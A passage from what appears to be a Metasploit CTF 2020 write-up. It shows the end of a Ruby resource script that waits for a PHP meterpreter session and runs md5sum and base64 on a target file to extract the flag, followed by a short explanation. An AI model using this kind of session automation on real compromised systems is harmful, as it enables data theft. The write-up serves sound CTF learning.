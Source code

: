 ```
          r.close
       rescue ::Exception => e
          print_error("Error Running Command #{cmd}: #{e.class} #{e}")
       end
    end
 end

 commands = ["md5sum ../../5_of_clubs.png","base64 -w0 ../../5_of_clubs.png"]

 print_status('Waiting a bit to make sure the session is completely setup...')

 timeout = 10
  
 loop do
   break if (timeout == 0) || (framework.sessions.any? && framework.sessions.first[1].sys)
    sleep 1
    timeout -= 1
   end
  
  if framework.sessions.any? && framework.sessions.first[1].sys
    # Interact with the PHP meterpreter shell
    client = framework.sessions[1]
    list_exec(client,commands)
  end
</ruby>
```

Uploading both of these files to the challenge server, it will process everything, and once the msf_out log file is ready, we can see that everything was executed as we wanted. We first get our hash, which is the value needed to submit the flag.

<center><img src = "/assets/images/metasploitctf2020/uploaded.png"></center>
